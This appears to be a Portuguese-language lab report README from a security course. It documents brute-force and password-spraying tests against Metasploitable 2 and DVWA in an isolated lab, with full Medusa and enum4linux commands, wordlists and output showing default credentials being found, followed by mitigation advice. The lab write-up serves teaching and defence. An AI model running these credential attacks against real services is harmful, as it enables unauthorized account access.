

# Relatório de Estudo: Auditoria de Segurança e Prevenção contra Ataques de Força Bruta

Este repositório contém a documentação prática e teórica elaborada para o desafio do curso de Segurança da Informação na plataforma **DIO (Digital Innovation One)**.

---

## 🎯 Objetivo do Projeto

Demonstrar a compreensão teórica e prática sobre os conceitos de autenticação, testes de resistência de credenciais (*Brute Force* e *Password Spraying*) em ambientes controlados e isolados, e mapear as principais estratégias defensivas para mitigar esse tipo de vulnerabilidade.

---

## 🖥️ Topologia e Configuração do Laboratório

- **Sistema Anfitrião (Host):** Fedora Linux com GNOME Boxes.
- **Máquina Atacante:** Kali Linux (Medusa, Nmap, enum4linux).
- **Máquina Alvo:** Metasploitable 2 e aplicação DVWA (*Damn Vulnerable Web Application*).
- **Modo de Rede:** Rede isolada/NAT do GNOME Boxes (sem acesso à internet a partir do alvo).

> **Nota de Segurança:** Todos os testes foram restritos a um ambiente de laboratório isolado, respeitando as boas práticas e diretrizes éticas da segurança da informação.

### Identificação do alvo (Metasploitable 2)



eth0 Link encap:Ethernet HWaddr 52:54:00:44:65:7c
inet addr:192.168.122.226 Bcast:192.168.122.255 Mask:255.255.255.0


### Teste de conectividade (Kali → Metasploitable)

```bash
ping -c 4 192.168.122.226
```

PING 192.168.122.226 (192.168.122.226) 56(84) bytes of data.
64 bytes from 192.168.122.226: icmp_seq=1 ttl=64 time=1.51 ms
64 bytes from 192.168.122.226: icmp_seq=2 ttl=64 time=0.908 ms
64 bytes from 192.168.122.226: icmp_seq=3 ttl=64 time=0.805 ms
64 bytes from 192.168.122.226: icmp_seq=4 ttl=64 time=0.848 ms

--- 192.168.122.226 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3031ms


Conectividade confirmada entre as duas VMs, 0% de perda de pacotes.

---

## 🔍 Conceitos Estudados

### 1. Ataque de Força Bruta (*Brute Force*)
Consiste no teste exaustivo de combinações de usuários e senhas (geralmente com wordlists) contra um serviço de autenticação, até encontrar a credencial correta.

### 2. Password Spraying
Técnica que inverte a lógica do brute force tradicional: em vez de testar muitas senhas para um único usuário, testa-se poucas senhas comuns contra uma lista ampla de usuários — evitando bloqueios de conta por tentativas repetidas no mesmo login.

### 3. Ferramenta Medusa
Ferramenta de autenticação paralela e modular, usada no Kali Linux para testes contra diversos protocolos de rede (FTP, HTTP, SMB, SSH, entre outros).

---

## 🧪 Execução dos Testes

### Wordlists utilizadas

Wordlists simples, criadas apenas para fins didáticos, disponíveis em `/wordlists`:

**usuarios.txt**

msfadmin
admin
root
user


**senhas.txt**

msfadmin
123456
password
admin
toor


**usuarios_enumerados.txt** (gerada a partir da enumeração SMB)

msfadmin
root
user
postgres
mysql
ftp
backup


### 1. Força Bruta em FTP

Comando utilizado:
```bash
medusa -h 192.168.122.226 -U wordlists/usuarios.txt -P wordlists/senhas.txt -M ftp
```

**Resultado:**

Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks jmk@foofus.net

2026-10-27 02:44:38 ACCOUNT CHECK: [ftp] Host: 192.168.122.226 User: msfadmin Password: msfadmin
2026-10-27 02:44:38 ACCOUNT FOUND: [ftp] Host: 192.168.122.226 User: msfadmin Password: msfadmin [SUCCESS]


O Medusa identificou a credencial válida logo na primeira combinação testada (`msfadmin:msfadmin`), evidenciando o uso de uma credencial padrão fraca exposta no serviço de FTP do Metasploitable 2 — um risco comum em ambientes com configurações default não alteradas.

### 2. Password Spraying em SMB com enumeração de usuários

Enumeração de usuários (sessão nula/anônima):
```bash
enum4linux -U 192.168.122.226
```

[+] Server 192.168.122.226 allows sessions using username ‘’, password ‘’
...
user:[msfadmin] rid:[0xbb8]
user:[root] rid:[0x3e8]
user:[postgres] rid:[0x4c0]
user:[mysql] rid:[0x4c2]
user:[ftp] rid:[0x4be]
user:[backup] rid:[0x42c]
(34 usuários enumerados no total)


O servidor permitiu sessão SMB anônima (usuário/senha vazios), possibilitando a enumeração de 34 contas reais do sistema sem qualquer autenticação — uma falha crítica de configuração.

Password spraying (uma senha testada contra vários usuários enumerados):
```bash
medusa -h 192.168.122.226 -U wordlists/usuarios_enumerados.txt -p msfadmin -M smbnt
```

2026-10-27 02:49:48 ACCOUNT FOUND: [smbnt] Host: 192.168.122.226 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]


**Resultado:** de 7 usuários testados com a senha `msfadmin`, apenas a conta `msfadmin` foi validada — porém com **acesso administrativo completo** (`ADMIN$`), evidenciando o risco de uma conta privilegiada usando senha igual ao nome de usuário.

### 3. Automação de tentativas em formulário Web (DVWA)

- DVWA configurado com nível de segurança **Low**, para fins didáticos.
- Módulo de login acessado em `http://192.168.122.226/dvwa/vulnerabilities/brute/`.
- Formulário utiliza método **GET**, enviando `username`, `password` e `Login` diretamente na URL.
- Autenticação depende de sessão ativa (cookie `PHPSESSID`), capturado via DevTools do navegador.

Comando utilizado:
```bash
medusa -h 192.168.122.226 -u admin -P wordlists/senhas.txt -M web-form \
-m FORM:"/dvwa/vulnerabilities/brute/index.php" \
-m FORM-DATA:"get?username=&password=&Login=Login" \
-m DENY-SIGNAL:"Username and/or password incorrect" \
-m CUSTOM-HEADER:"Cookie: security=low; PHPSESSID=<seu_session_id_aqui>"
```

**Resultado:**

Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks jmk@foofus.net

2026-10-27 02:57:28 ACCOUNT CHECK: [web-form] Host: 192.168.122.226 User: admin Password: msfadmin
2026-10-27 02:57:28 ACCOUNT CHECK: [web-form] Host: 192.168.122.226 User: admin Password: 123456
2026-10-27 02:57:28 ACCOUNT CHECK: [web-form] Host: 192.168.122.226 User: admin Password: password
2026-10-27 02:57:28 ACCOUNT FOUND: [web-form] Host: 192.168.122.226 User: admin Password: password [SUCCESS]


A credencial `admin:password` — padrão de instalação do próprio DVWA — foi validada já na terceira tentativa, evidenciando o risco de manter credenciais padrão em aplicações web expostas, especialmente combinadas com ausência de rate limiting, bloqueio de conta e CAPTCHA.

---

## 🛡️ Medidas de Prevenção e Mitigação

1. **Políticas de Senhas Fortes:** eliminar credenciais padrão (como `msfadmin:msfadmin` e `admin:password`) e exigir comprimento mínimo (12+ caracteres) com diversidade de tipos de caractere.
2. **Bloqueio de Conta (*Account Lockout*):** bloquear temporariamente a conta após um número limite de tentativas incorretas consecutivas.
3. **Limitação de Taxa (*Rate Limiting*):** restringir requisições por IP em um intervalo de tempo.
4. **Autenticação Multifator (MFA/2FA):** exigir um segundo fator além da senha.
5. **CAPTCHA:** em formulários web, para impedir automação por scripts e bots.
6. **Monitoramento e Detecção:** uso de Fail2ban ou SIEM para analisar logs (ex.: `/var/log/auth.log`) e bloquear IPs suspeitos automaticamente.
7. **Firewalls e IDS/IPS:** restringir acesso a portas sensíveis (SSH, FTP, SMB) apenas a redes confiáveis.
8. **Desabilitar Sessões Anônimas em SMB:** impedir enumeração de usuários e compartilhamentos sem autenticação (`restrict anonymous` no Samba).

---

## 📚 Conclusão

Este desafio permitiu compreender, na prática, como funcionam ataques de automação de credenciais contra diferentes serviços — FTP, SMB e uma aplicação web (DVWA). Em todos os três cenários, o fator comum que permitiu o sucesso dos ataques foi o uso de **credenciais padrão/fracas** e a **ausência de mecanismos de defesa** como bloqueio de conta, rate limiting e MFA.

O laboratório reforça a importância de implementar múltiplas camadas de defesa (*Defense in Depth*), já que nenhuma medida isolada é suficiente: senhas fortes reduzem o sucesso de ataques de dicionário, mas não impedem automação sem rate limiting; MFA protege mesmo quando a senha é comprometida; e a desativação de sessões/serviços desnecessários reduz a superfície de ataque disponível para enumeração.

---

## 📁 Estrutura do Repositório

```
desafio-brute-force-dio/
├── README.md
├── foto.png
└── wordlists/
    ├── usuarios.txt
    ├── senhas.txt
    └── usuarios_enumerados.txt
